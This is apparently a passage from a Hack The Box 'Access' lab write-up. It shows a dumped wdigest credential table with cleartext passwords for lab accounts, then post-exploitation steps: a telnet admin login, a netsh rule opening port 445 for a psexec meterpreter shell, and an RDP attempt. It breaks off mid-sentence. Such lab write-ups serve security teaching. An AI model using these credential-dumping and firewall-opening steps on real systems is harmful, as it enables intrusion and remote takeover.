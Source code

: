 
## wdigest credentials

AuthID     Package    Domain        User                Password
------     -------    ------        ----              | --------
0;996    |  Negotiate |  HTB         |  ACCESS$
0;119773 |  Negotiate |  IIS APPPOOL |  DefaultAppPool|
0;995    |  Negotiate |  NT AUTHORITY|  IUSR
0;997    |  Negotiate |  NT AUTHORITY|  LOCAL SERVICE
0;45589  |  NTLM
0;999    |  NTLM      |  HTB         |  ACCESS$
0;458676 |  NTLM      |  ACCESS      |  security      |  4Cc3ssC0ntr0ller
0;456008 |  NTLM      |  ACCESS      |  security      |  4Cc3ssC0ntr0ller
0;646488 |  NTLM      |  ACCESS      |  Administrator |  55Acc3ssS3cur1ty@megacorp

# Post-Exploit

Next, I opened a telnet session and logged in with admin password


DONE


I Opened 445 via admin to open a meterpreter shell via psexec
netsh advfirewall firewall add rule dir=in action=allow protocol=TCP localport=445 name="allow_TCP-445"

![alt text](/images/htb-Access/opened-smb-port.png)


I also opened 3389 just to see if rdesktop would work..it didn't!

---------------------------------------------------------------------------------------

I wanted to upload my own jpg on webserver instead of the default jpeg. Looking in websrc
